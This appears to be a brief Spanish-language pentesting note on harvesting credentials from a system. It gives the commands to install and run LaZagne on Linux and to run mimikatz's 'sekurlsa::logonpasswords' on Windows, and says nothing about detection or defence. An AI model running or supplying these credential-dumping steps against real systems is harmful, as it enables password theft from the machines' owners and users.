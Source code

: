 Para sacar todas las credenciales de  un sistema operativo vamos a clonar el siguiente repositorio en Linux o Windows, dependiendo donde queramos sacar dichas credenciales.

```bash 
git clone https://github.com/AlessandroZ/LaZagne.git
```

![[Pasted image 20240115124113.png]]

Despues de clonar dicho repositorio vamos a instalar los requerimientos necesarios para este repo, por lo que vamos a instalarlos con el siguiente comando.

```bash 
cd LaZagne
pip install -r requirements.txt
cd Linux
```

Despues de haber entrado a la carpeta de linux y ejecutar el .py que hay allí y colocar al lado el parámetro all ya tendremos todas nuestra credenciales.

![[Pasted image 20240115124517.png]]


Para sacar credenciales de Windows usaremos esta misma herramienta o la herramienta de *mimikatz*, en el siguiente repositorio podrás decargarlo. https://github.com/ParrotSec/mimikatz.git  y para utilizarlo solo falta ejecutarlo y colocar el siguiente comando.

```bash 
sekurlsa::logonpasswords
```


